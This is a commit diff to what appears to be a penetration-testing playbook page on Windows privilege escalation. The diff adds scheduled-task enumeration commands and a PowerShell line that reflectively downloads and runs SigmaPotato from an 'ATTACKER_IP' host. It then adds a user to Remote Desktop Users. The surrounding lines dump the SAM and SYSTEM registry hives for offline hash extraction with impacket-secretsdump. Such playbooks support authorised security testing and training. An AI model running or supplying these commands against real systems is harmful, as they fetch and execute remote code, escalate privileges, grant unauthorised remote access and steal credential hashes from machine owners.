

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/privesc/windows/othercomponents.md, in a window 1280 px wide and 900 px high, scrolled down 1633 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2101 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
more general updates

````diff
--- a/docs/privesc/windows/othercomponents.md
+++ b/docs/privesc/windows/othercomponents.md
@@ -12,6 +12,14 @@ __REQUIRES__
 List scheduled tasks
 ```powershell
 schtasks /query /fo LIST /v
+```
+
+Powershell
+```powershell
+Get-ScheduledTask | Where-Object { $_.State -ne 'Disabled' }
+```
+```powershell
+Get-ScheduledTask | Where-Object { $_.State -eq 'Ready' }
 ```
 
 Check ACL for schtask action
@@ -72,6 +80,21 @@ hash dump bypass
 .\SigmaPotato.exe "cmd /c reg save HKLM\SAM C:\temp\SAM && reg save HKLM\SYSTEM C:\temp\SYSTEM"
 ```
 
+system reflection (remote load)
+```powershell
+[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://ATTACKER_IP/SigmaPotato.exe"))
+```
+
+or file load
+```powershell
+[System.Reflection.Assembly]::LoadFile("$PWD\sigpo.exe")
+```
+
+use reflection
+```powershell
+[SigmaPotato]::Main('cmd /c net localgroup "Remote Desktop Users" jeff /add')
+```
+
 Secrets dump for hashes
 ```bash
 impacket-secretsdump -sam SAM -system SYSTEM LOCAL
````
Also changed, not shown: docs/activedirectory/cachedadcreds.md (+5 -0 lines).
